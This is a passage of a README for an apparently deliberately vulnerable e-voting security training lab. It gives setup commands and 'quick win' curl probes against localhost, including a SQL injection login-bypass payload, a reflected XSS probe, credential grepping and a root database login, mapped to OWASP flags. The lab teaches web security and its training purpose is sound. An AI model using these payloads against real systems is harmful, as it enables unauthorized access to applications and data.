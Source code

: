 ## 🚀 Quick Start Commands

### Setup Environment
```bash
# Clone and start
git clone <repo-url> evoting-security-lab
cd evoting-security-lab
docker-compose up -d

# Verify services
docker-compose ps
docker-compose logs web

# Access application
firefox http://localhost:8181/evoting/login1.php &

# Start Burp Suite
burpsuite &
```

### Quick Wins
```bash
# 1. Find exposed credentials
curl http://localhost:8181/evoting/login1.php | grep -i "password\|admin\|username"

# 2. Check for directory listing
curl http://localhost:8181/evoting/

# 3. Test SQL injection
curl -X POST http://localhost:8181/evoting/login1.php \
  -d "Username=admin' OR '1'='1&Password=x&submit=login" -L

# 4. Access database
mysql -h localhost -P 3306 -u root -proot_password evoting -e "SHOW TABLES;"

# 5. Test XSS
curl "http://localhost:8181/evoting/login1.php?error=<script>alert(1)</script>"
```

---

## 🎓 Study Material

### OWASP Top 10 Mapping

**A01:2021 - Broken Access Control**
- FLAG-BAC-001, FLAG-BAC-002, FLAG-BAC-003, FLAG-BAC-004

**A02:2021 - Cryptographic Failures**
- FLAG-DATA-001, FLAG-DATA-002, FLAG-DATA-003
